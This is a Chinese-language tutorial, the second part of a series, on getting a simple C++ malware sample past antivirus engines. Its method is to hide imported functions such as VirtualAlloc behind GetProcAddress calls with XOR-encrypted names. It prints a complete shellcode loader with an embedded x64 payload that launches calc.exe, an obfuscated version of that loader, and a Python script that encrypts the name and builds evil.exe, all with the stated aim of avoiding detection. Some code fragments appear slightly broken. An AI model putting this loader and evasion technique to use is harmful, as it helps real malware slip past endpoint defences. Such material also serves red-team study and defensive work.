\newpage
\subsection{针对简单 C++ 恶意软件的 AV 引擎规避（第 2 部分）}

这是本教程的第二部分，首先我建议你学习第一部分。

{width="80%"}

在这一节中我们将学习函数调用混淆。

那么这是什么？为什么恶意软件开发者和红队需要学习它？

让我们考虑第一部分中的 `evil.exe` 在 VirusTotal 上的情况：

<https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection>

然后进入 details（详情）标签页：

{width="80%"}

每一个 PE 模块，比如 `.exe` 和 `.dll`，通常都会使用外部函数。

所以当它运行时，它会调用那些实现在外部 DLL 中的函数——这些 DLL 会被映射到进程内存中，从而让这些函数对该进程的代码可用。

当然，这种方法并非万无一失，可能会产生一些误报，但众所周知它在某些情况下是有效的，并且被 AV 引擎广泛使用。

假设你的程序需要调用一个叫 `HackAndWin` 的函数，它是从一个叫 `hacker.dll` 的 DLL 中导出的。

那么首先你调用 `GetModuleHandle`，然后你可以用 `HackAndWin` 作为实参调用 `GetProcAddress`，然后你就得到了那个函数的地址：

```cpp
hack = GetProcAddress(
GetModuleHandle("hacker.dll"), "HackAndWin");
```

重要的是，当你编译代码时，编译器不会把 `hacker.dll` 放进导入地址表。

我们来看一下第一部分中我们第一个恶意软件的源代码：

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

  // run payload
  th = CreateThread(0, 0, 
  (LPTHREAD_START_ROUTINE) my_payload_mem, 
  0, 0, 0);
  WaitForSingleObject(th, -1);
  }
  return 0;

```

在这个例子中，为了简单起见，载荷没有加密，是明文的载荷。

{width="80%"}

我们来编译它：

{width="80%"}

并运行它以确认它能工作：

{width="80%"}

那么我们来看看导入地址表。

```bash
objdump -x -D evil.exe | less
```

{width="80%"}

如你所见，我们的程序使用了 `KERNEL32.dll`，并导入了所有这些函数：

{width="80%"}

其中一些在我们的代码中被使用：

{width="80%"}

所以让我们来摆脱 `VirtualAlloc`。

{width="80%"}

那么我们该怎么做？首先我们需要找到 `VirtualAlloc` 的声明：

{width="80%"}

那么，让我们创建一个名为 `VirtualAlloc` 的全局变量，但它必须是一个指针 `pVirtualAlloc`，这个变量将存储 `VirtualAlloc` 的地址：

{width="80%"}

现在我们需要通过 `GetProcAddress` 获取这个地址，并把对 `VirtualAlloc` 的调用改成 `pVirtualAlloc`：

{width="80%"}

然后我们来编译它，再看看导入地址表：

```bash
objdump -x -D evil.exe | less
```

{width="80%"}

当我们尝试从我们的二进制文件中提取所有字符串时，我们会发现 `VirtualAlloc` 这个字符串仍然还在。

```bash
strings -n 8 evil.exe
```

{width="80%"}

原因是我们在调用 `GetProcAddress` 时使用了明文的字符串。

首先，把 XOR 函数加入我们的 `evil.cpp` 恶意软件源代码：

{width="80%"}

假设这个字符串是 `cVirtualAlloc`，然后修改我们的代码：

{width="80%"}

加入 XOR 解密：

{width="80%"}

那么，我们恶意软件代码的最终版本是：

```cpp
/*
cpp implementation malware 
example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

// XOR encrypted VirtualAlloc
unsigned char cVirtualAlloc[] = { };
unsigned int cVirtualAllocLen = sizeof(cVirtualAlloc);

// encrypt/decrypt key
char mySecretKey[] = "meowmeow";

// LPVOID VirtualAlloc(
//  LPVOID lpAddress,
//  SIZE_T dwSize,
//  DWORD  flAllocationType,
//  DWORD  flProtect
// );

LPVOID (WINAPI * pVirtualAlloc)(
  LPVOID lpAddress, 
  SIZE_T dwSize, 
  DWORD flAllocationType, 
  DWORD flProtect
);

void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
  if (j == key_len - 1) j = 0;
  data[i] = data[i] ^ key[j];
  j++;
  }

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  XOR((char *) cVirtualAlloc, cVirtualAllocLen, 
  mySecretKey, sizeof(mySecretKey));

  // Allocate a memory buffer for payload
  pVirtualAlloc = GetProcAddress(
  GetModuleHandle("kernel32.dll"), cVirtualAlloc);

  my_payload_mem = pVirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

  // run payload
  th = CreateThread(0, 0, 
  (LPTHREAD_START_ROUTINE) my_payload_mem, 
  0, 0, 0);
	WaitForSingleObject(th, -1);
  }
  return 0;

```

并用 python 脚本 XOR 加密我们的函数名并替换：

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
  key = str(key)
  l = len(key)
  output_str = ""

  for i in range(len(data)):
  current = data[i]
  current_key = key[i % len(key)]
  ordd = lambda x: x if isinstance(x, int) else ord(x)
  output_str += chr(ordd(current) ^ ord(current_key))
  return output_str

## encrypting
def xor_encrypt(data, key):
  ciphertext = xor(data, key)
  ciphertext = '{ 0x' + ', 0x'.
  join(hex(ord(x))[2:] for x in ciphertext) + ' };'
  print (ciphertext)
  return ciphertext, key

## key for encrypt/decrypt
plaintext = "VirtualAlloc"
my_secret_key = "meowmeow"

## encrypt VirtualAlloc
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char cVirtualAlloc[] = { };', 
'unsigned char cVirtualAlloc[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
  cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
  cmd += " -o evil.exe -s -ffunction-sections"
  cmd += " -fdata-sections -Wno-write-strings"
  cmd += " -fno-exceptions -fmerge-all-constants"
  cmd += " -static-libstdc++ -static-libgcc"
  cmd += " >/dev/null 2>&1"
  os.system(cmd)
except:
  print ("error compiling malware template :(")
  sys.exit()
else:
  print (cmd)
  print ("successfully compiled :)")
```

编译并检查：

```bash
strings -n 8 evil.exe | grep "Virtual"
```

{width="80%"}

它可以是 `VirtualProtect` 或 `RtlMoveMemory` 等等。

运行：

{width="80%"}

一切正常。

我们把我们的 `evil.exe` 上传到 VirusTotal：

